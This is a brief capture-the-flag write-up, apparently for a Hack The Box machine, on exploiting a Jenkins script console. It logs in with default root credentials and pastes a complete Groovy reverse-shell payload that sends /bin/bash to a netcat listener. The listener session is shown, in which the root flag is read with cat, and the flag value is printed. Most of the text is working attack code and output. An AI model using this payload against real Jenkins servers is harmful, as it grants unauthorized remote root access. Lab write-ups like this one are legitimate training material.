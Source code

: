 # Reproduce

Netcat listener on Kali `nc -lvnp 8000`

Also, for the TUN0 interface IP Address: `ip a | grep tun0`

Via Jenkins `http://10.129.23.128:8080/script` with username: `root` and password: `password`

    String host="IP_Addr_TUN0";
    int port=8000;
    String cmd="/bin/bash";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


Netcat listener 

    ┌──(kali㉿kali)-[~]
    └─$ nc -lvnp 8000
    listening on [any] 8000 ...
    connect to [10.10.14.52] from (UNKNOWN) [10.129.23.128] 58002
    cat /root/flag.txt
    9cdfb439c7876e703e307864c9167a15

# Flag

9cdfb439c7876e703e307864c9167a15
